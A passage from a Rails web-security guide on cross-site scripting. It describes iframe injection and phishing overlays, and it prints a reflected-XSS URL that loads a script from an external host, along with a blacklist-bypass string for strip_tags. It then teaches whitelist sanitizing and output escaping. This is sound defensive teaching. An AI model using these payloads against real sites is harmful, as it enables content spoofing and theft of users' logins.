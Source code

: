 This loads arbitrary HTML and/or JavaScript from an external source and embeds it as part of the site. This iframe is taken from an actual attack on legitimate Italian sites using the [Mpack attack framework](http://isc.sans.org/diary.html?storyid=3015). Mpack tries to install malicious software through security holes in the web browser - very successfully, 50% of the attacks succeed.

A more specialized attack could overlap the entire web site or display a login form, which looks the same as the site's original, but transmits the user name and password to the attacker's site. Or it could use CSS and/or JavaScript to hide a legitimate link in the web application, and display another one at its place which redirects to a fake web site.

Reflected injection attacks are those where the payload is not stored to present it to the victim later on, but included in the URL. Especially search forms fail to escape the search string. The following link presented a page which stated that "George Bush appointed a 9 year old boy to be the chairperson...":

```
http://www.cbsnews.com/stories/2002/02/15/weather_local/main501644.shtml?zipcode=1-->
  <script src=http://www.securitylab.ru/test/sc.js></script><!--
```

##### Countermeasures

_It is very important to filter malicious input, but it is also important to escape the output of the web application_.

Especially for XSS, it is important to do _whitelist input filtering instead of blacklist_. Whitelist filtering states the values allowed as opposed to the values not allowed. Blacklists are never complete.

Imagine a blacklist deletes "script" from the user input. Now the attacker injects "&lt;scrscriptipt&gt;", and after the filter, "&lt;script&gt;" remains. Earlier versions of Rails used a blacklist approach for the strip_tags(), strip_links() and sanitize() method. So this kind of injection was possible:

```ruby
strip_tags("some<<b>script>alert('hello')<</b>/script>")
```

This returned "some&lt;script&gt;alert('hello')&lt;/script&gt;", which makes an attack work. That's why a whitelist approach is better, using the updated Rails 2 method sanitize():

```ruby
tags = %w(a acronym b strong i em li ul ol h1 h2 h3 h4 h5 h6 blockquote br cite sub sup ins p)
s = sanitize(user_input, tags: tags, attributes: %w(href title))
```

This allows only the given tags and does a good job, even against all kinds of tricks and malformed tags.

As a second step, _it is good practice to escape all output of the application_, especially when re-displaying user input, which hasn't been input-filtered (as in the search form example earlier on). _Use `escapeHTML()` (or its alias `h()`) method_ to replace the HTML input characters &amp;, &quot;, &lt;, &gt; by their uninterpreted representations in HTML (`&amp;`, `&quot;`, `&lt`;, and `&gt;`). However, it can easily happen that the programmer forgets to use it, so _it is recommended to use the SafeErb gem. SafeErb reminds you to escape strings from external sources.

##### Obfuscation and Encoding Injection
